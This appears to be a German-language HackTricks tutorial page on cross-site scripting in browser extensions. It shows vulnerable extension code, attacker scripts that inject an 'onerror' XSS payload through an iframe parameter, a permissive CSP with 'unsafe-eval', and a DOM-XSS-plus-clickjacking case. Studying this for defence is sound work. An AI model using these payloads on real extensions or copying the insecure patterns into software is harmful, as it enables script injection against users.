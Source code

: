 # BrowExt - XSS Beispiel

{{#include ../../banners/hacktricks-training.md}}

## Cross-Site Scripting (XSS) durch Iframe

In diesem Setup wird ein **Inhalts-Skript** implementiert, um ein Iframe zu instanziieren, das eine URL mit Abfrageparametern als Quelle des Iframes einfügt:
```javascript
chrome.storage.local.get("message", (result) => {
let constructedURL =
chrome.runtime.getURL("message.html") +
"?content=" +
encodeURIComponent(result.message) +
"&redirect=https://example.net/details"
frame.src = constructedURL
})
```
Eine öffentlich zugängliche HTML-Seite, **`message.html`**, ist so gestaltet, dass sie Inhalte dynamisch zum Dokumenteninhalt basierend auf den Parametern in der URL hinzufügt:
```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search)
let userContent = urlParams.get("content")
$(document.body).html(
`${userContent} <button id='detailBtn'>Details</button>`
)
$("#detailBtn").on("click", () => {
let destinationURL = urlParams.get("redirect")
chrome.tabs.create({ url: destinationURL })
})
})
```
Ein bösartiges Skript wird auf der Seite eines Angreifers ausgeführt, das den `content`-Parameter der Iframe-Quelle ändert, um eine **XSS-Payload** einzuführen. Dies wird erreicht, indem die Iframe-Quelle aktualisiert wird, um ein schädliches Skript einzuschließen:
```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src
let baseURL = targetFrame.split("?")[0]
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>"
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`

document.querySelector("iframe").src = maliciousURL
}, 1000)
```
Eine zu permissive Content Security Policy wie:
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
ermöglicht die Ausführung von JavaScript, wodurch das System anfällig für XSS-Angriffe wird.

Ein alternativer Ansatz, um das XSS auszulösen, besteht darin, ein Iframe-Element zu erstellen und dessen Quelle so festzulegen, dass das schädliche Skript als `content`-Parameter enthalten ist:
```javascript
let newFrame = document.createElement("iframe")
newFrame.src =
"chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>")
document.body.append(newFrame)
```
## DOM-basiertes XSS + ClickJacking

Dieses Beispiel stammt aus dem [originalen Beitrag](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

Das Kernproblem ergibt sich aus einer DOM-basierten Cross-site Scripting (XSS) Schwachstelle, die sich in **`/html/bookmarks.html`** befindet. Das problematische JavaScript, Teil von **`bookmarks.js`**, ist unten aufgeführt:
```javascript
$("#btAdd").on("click", function () {
var bookmarkName = $("#txtName").val()
if (
$(".custom-button .label").filter(function () {
return $(this).text() === bookmarkName
}).length
)
return false

var bookmarkItem = $('<div class="custom-button">')
bookmarkItem.html('<span class="label">' + bookmarkName + "</span>")
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>')
bookmarkItem.attr("data-title", bookmarkName)
bookmarkItem.data("timestamp", new Date().getTime())
$("section.bookmark-container .existing-items").append(bookmarkItem)
persistData()
})
```
Dieser Snippet ruft den **Wert** aus dem **`txtName`** Eingabefeld ab und verwendet **String-Konkatenation zur Generierung von HTML**, das dann mit jQuerys `.append()` Funktion an das DOM angehängt wird.

Typischerweise würde die Content Security Policy (CSP) der Chrome-Erweiterung solche Schwachstellen verhindern. Aufgrund der **CSP-Entspannung mit ‘unsafe-eval’** und der Verwendung von jQuerys DOM-Manipulationsmethoden (die [`globalEval()`](https://api.jquery.com/jquery.globaleval/) verwenden, um Skripte an [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) bei der DOM-Einfügung zu übergeben), ist eine Ausnutzung jedoch weiterhin möglich.

Obwohl diese Schwachstelle erheblich ist, hängt ihre Ausnutzung normalerweise von der Interaktion des Benutzers ab: die Seite besuchen, eine XSS-Nutzlast eingeben und die Schaltfläche „Hinzufügen“ aktivieren.

Um diese Schwachstelle zu verstärken, wird eine sekundäre **Clickjacking**-Schwachstelle ausgenutzt. Das Manifest der Chrome-Erweiterung zeigt eine umfangreiche `web_accessible_resources`-Richtlinie:
```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```
Bemerkenswert ist, dass die **`/html/bookmarks.html`**-Seite anfällig für Framing ist und somit für **clickjacking** verwundbar ist. Diese Schwachstelle wird ausgenutzt, um die Seite innerhalb der Website eines Angreifers einzurahmen und sie mit DOM-Elementen zu überlagern, um die Benutzeroberfläche täuschend umzugestalten. Diese Manipulation führt dazu, dass die Opfer unbeabsichtigt mit der zugrunde liegenden Erweiterung interagieren.

## References

- [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
- [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{{#include ../../banners/hacktricks-training.md}}
